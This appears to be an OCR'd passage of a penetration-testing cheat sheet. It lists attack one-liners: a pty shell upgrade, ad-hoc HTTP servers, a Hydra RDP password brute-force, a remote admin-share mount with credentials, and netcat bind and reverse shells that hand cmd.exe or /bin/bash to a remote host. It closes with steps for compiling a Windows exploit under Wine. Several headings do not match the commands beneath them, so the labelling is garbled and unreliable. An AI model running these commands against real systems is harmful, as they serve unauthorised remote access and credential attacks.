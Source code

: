 ```
python -c 'import pty;pty.spawn("/bin/bash")'
```
### Python\Ruby\PHP HTTP Server

```
python2 -m SimpleHTTPServer
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
```
### Get PIDs of process

```
fuser -nv tcp 80
fuser -k -n tcp 80
```
### Hydra rdp Bruteforce

```
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp
```
### Mount Remote Windows Share

```
smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
```
### Compiling Exploit in Kali

```
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
```
### Compiling Windows Exploits on Kali

```
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80

nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
```
### Window reverse shell

```
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
```
### NASM Commands
